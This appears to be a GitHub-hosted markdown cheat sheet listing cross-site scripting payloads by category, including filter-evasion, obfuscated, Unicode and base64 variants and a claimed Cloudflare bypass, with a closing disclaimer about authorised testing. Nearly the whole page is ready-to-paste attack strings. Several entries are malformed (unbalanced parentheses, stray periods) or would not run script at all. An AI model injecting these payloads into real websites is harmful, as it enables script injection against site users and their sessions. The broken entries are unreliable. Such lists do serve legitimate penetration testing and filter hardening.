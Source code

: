 **Encoder and decoder site :**  

**<https://dencode.com/en/>**

**Resources** : 
<https://github.com/swisskyrepo/PayloadsAllTheThings>
 



Use this Payload and understand the system


test\/><'"'

If the system bypass then half opened script tags 
      


Here’s a categorized list of **XSS payloads** for bypassing filters, including **simple**, **advanced**, and **obfuscated** payloads:

Cloudflare bypass payload

- Dec: <svg onload=prompt%26%230000000040document.domain)>
-  Hex: <svg onload=prompt%26%23x000000028;document.domain)>
---

### **Simple XSS Payloads:**
- `<script>alert('XSS')</script>`
- `<img src=x onerror=alert('XSS')>`
- `<svg/onload=alert('XSS')>`
- `<body onload=alert('XSS')>`
- `<iframe src="javascript:alert('XSS')"></iframe>`
- `<a href="javascript:alert('XSS')">Click me</a>`
- `<div onmouseover=alert('XSS')>Hover me</div>`
- `<input type="text" value="" onfocus=alert('XSS') autofocus>`
- `<marquee onstart=alert('XSS')>XSS</marquee>`
- `<details/open/ontoggle=alert('XSS')>`

---

### **XSS Bypass Payloads (Filter Evasion):**
- `<scr<script>ipt>alert('XSS')</scr</script>ipt>`
- `<img src=x oneonerrorrror=alert('XSS')>`
- `<svg><script>alert('XSS')</script></svg>`
- `<img src="x:gif" onerror="alert('XSS')">`
- `<img src=x onerror=alert(String.fromCharCode(88,83,83.)>`
- `<img src=x onerror=alert`XSS`>`
- `<img src=x onerror=alert(&#39;XSS&#39;)>`
- `<img src=x onerror=alert(&#x27;XSS&#x27;)>`
- `<img src=x onerror=alert('\x58\x53\x53')>`
- `<img src=x onerror=eval('alert("XSS")')>`

---

### **Advanced XSS Payloads (Obfuscation):**
- `<script>\u0061\u006C\u0065\u0072\u0074('XSS')</script>`
- `<img src=x onerror=\u0061\u006C\u0065\u0072\u0074('XSS')>`
- `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
- `<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/wcAAgAB/2y6VwAAAABJRU5ErkJggg==" onload="alert('XSS')">`
- `<iframe srcdoc="<script>alert('XSS')</script>"></iframe>`
- `<object data="javascript:alert('XSS')"></object>`
- `<embed src="javascript:alert('XSS')">`
- `<video><source onerror=alert('XSS')></video>`
- `<audio src=x onerror=alert('XSS')>`
- `<style>@keyframes x{from{color:red;}to{color:blue;}}body{animation:x 1s infinite;}</style>`

---

### **DOM-Based XSS Payloads:**
- `#<script>alert('XSS')</script>`
- `#javascript:alert('XSS')`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<iframe src="javascript:alert('XSS')"></iframe>`

---

### **XSS in URL Parameters:**
- `<http://example.com/?q=><script>alert('XSS')</script>`
- `<http://example.com/?q=>"><img src=x onerror=alert('XSS')>`
- `<http://example.com/?q=javascript:alert('XSS')>`
- `<http://example.com/?q=><svg/onload=alert('XSS')>`
- `<http://example.com/?q=><iframe src="javascript:alert('XSS')"></iframe>`

---

### **XSS Using Template Literals:**
- `<script>alert`XSS`</script>`
- `<img src=x onerror=alert`XSS`>`
- `<svg/onload=alert`XSS`>`

---

### **XSS Using HTML Entities:**
- `&lt;script&gt;alert('XSS')&lt;/script&gt;`
- `&lt;img src=x onerror=alert('XSS')&gt;`
- `&lt;svg/onload=alert('XSS')&gt;`

---

### **XSS Using JavaScript Functions:**
- `<script>setTimeout('alert("XSS")', 1000.</script>`
- `<script>eval('alert("XSS")')</script>`
- `<script>Function('alert("XSS")')()</script>`
- `<script>new Function('alert("XSS")')()</script>`

---

### **XSS Using CSS:**
- `<style>@keyframes x{from{color:red;}to{color:blue;}}body{animation:x 1s infinite;}</style>`
- `<div style="background-image:url(javascript:alert('XSS'))">`
- `<link rel="stylesheet" href="javascript:alert('XSS')">`

---

### **XSS Using Base64 Encoding:**
- `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>`
- `<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/wcAAgAB/2y6VwAAAABJRU5ErkJggg==" onload="alert('XSS')">`

---

### **XSS Using Unicode:**
- `<script>\u0061\u006C\u0065\u0072\u0074('XSS')</script>`
- `<img src=x onerror=\u0061\u006C\u0065\u0072\u0074('XSS')>`
- `<svg/onload=\u0061\u006C\u0065\u0072\u0074('XSS')>`

---

### **XSS Using HTML5 Tags:**
- `<details/open/ontoggle=alert('XSS')>`
- `<video><source onerror=alert('XSS')></video>`
- `<audio src=x onerror=alert('XSS')>`
- `<picture><img src=x onerror=alert('XSS')></picture>`

---

**Note:** These payloads are for educational and testing purposes only. Always use them responsibly and with proper authorization. Unauthorized use is illegal and unethical.